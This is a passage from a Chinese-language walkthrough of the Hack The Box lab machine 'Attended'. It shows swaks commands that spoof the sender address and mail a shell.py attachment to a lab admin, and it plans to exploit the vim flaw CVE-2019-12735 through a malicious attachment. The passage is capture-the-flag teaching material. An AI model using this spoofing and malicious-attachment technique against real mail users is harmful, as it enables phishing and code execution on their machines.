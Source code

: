 根据回复内容，对方只收`freshness`的邮件，因此伪造发件人为`freshness`进行发邮件

```
swaks --to guly@attended.htb --from freshness@10.10.x.x -s 10.10.10.221:25
```

之后可以收到不同的回复

```
---------- MESSAGE FOLLOWS ----------
Received: from attended.htb (attended.htb [192.168.23.2])
        by attendedgw.htb (Postfix) with ESMTP id 7144A32D5F
        for &lt;freshness@10.10.x.x&gt;; Mon, 25 Jan 2021 04:24:34 +0100 (CET)
Content-Type: multipart/alternative;
 boundary="===============4642293069139030684=="
MIME-Version: 1.0
Subject: Re: test Mon, 25 Jan 2021 03:15:12 +0000
From: guly@attended.htb
X-Peer: 10.10.10.221

--===============4642293069139030684==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

hi mate, could you please double check your attachment? looks like you forgot to actually attach anything :)

p.s.: i also installed a basic py2 env on gw so you can PoC quickly my new outbound traffic restrictions. i think it should stop any non RFC compliant connection.
```

根据回复的内容，提到我们没有发送附件，并且ps中提到box安装了py2环境，因此我加上一个py脚本作为附件再次发送

```
swaks --to guly@attended.htb --from freshness@10.10.x.x --attach shell.py -s 10.10.10.221:25
```

之后又收到一个不同的回复：

```
thanks dude, i'm currently out of the office but will SSH into the box immediately and open your attachment with vim to verify its syntax.
if everything is fine, you will find your config file within a few minutes in the /home/shared folder.
test it ASAP and let me know if you still face that weird issue.
```

简单意思是管理员会ssh登陆服务器，然后使用vim打开我们发给他的附件，并且如果配置文件正常，将会放入/home/shared文件夹中。

整理一下思路：我们需要构造一个恶意附件，让管理员通过vim打开后触发漏洞获取权限。下一步需要查找一下vim是否有可以RCE的漏洞。



## Vim

搜索发现 Vim &lt; 8.1.1365 ，存在一个RCE漏洞CVE-2019-12735，具体可以查看以下链接：<br>[https://github.com/numirias/security/blob/master/doc/2019-06-04_ace-vim-neovim.md](https://github.com/numirias/security/blob/master/doc/2019-06-04_ace-vim-neovim.md)
